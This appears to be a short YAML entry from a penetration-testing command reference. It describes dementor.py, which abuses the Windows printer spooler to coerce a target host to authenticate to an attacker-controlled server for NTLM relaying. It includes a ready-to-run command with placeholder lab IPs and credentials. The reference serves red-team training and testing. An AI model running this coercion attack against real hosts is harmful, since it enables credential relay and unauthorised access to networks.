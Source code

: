 ```yaml
---
description: |
  dementor.py interacts with the printer spooler on a host to trigger an authentication from the target IP to an attacker controlled host (usually an SMB or HTTP server). This captured authentication can then be relayed to authenticated to other hosts. See more in ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1
items:
  - Password
  - Username
services:
  - RPC
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

